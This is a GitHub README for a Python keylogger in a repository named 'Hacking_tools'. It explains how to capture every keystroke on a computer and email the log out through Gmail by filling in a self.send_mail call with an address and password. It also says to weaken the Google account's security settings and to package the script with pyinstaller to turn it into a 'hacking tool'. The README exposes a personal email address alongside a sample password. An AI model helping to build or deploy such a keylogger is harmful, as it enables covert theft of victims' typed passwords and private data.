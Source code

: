 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Internet and Python IDEs   Ex: Pycharm, PyDev, IDLE, Spyder etc.. 


[+] Before executing keylogger.py make sure that you have provided your proper emailid and password in the program that shown below. 

self.send_mail("Your email id ", "Your Password", self.log)

For Ex: self.send_mail("arnavkumar6360@gmail.com", "abc123def456", self.log)


[+] Also enable the Less secure app access of your google account to receive the mail send by the program.

Link to enable Less secure app access https://myaccount.google.com/lesssecureapps


[+] Note: Its just a program, to convert this into a hacking tool we need to package this program by pyinstaller.exe. If u want to know more about this please contact through this mail arnavkumar6360@gmail.com
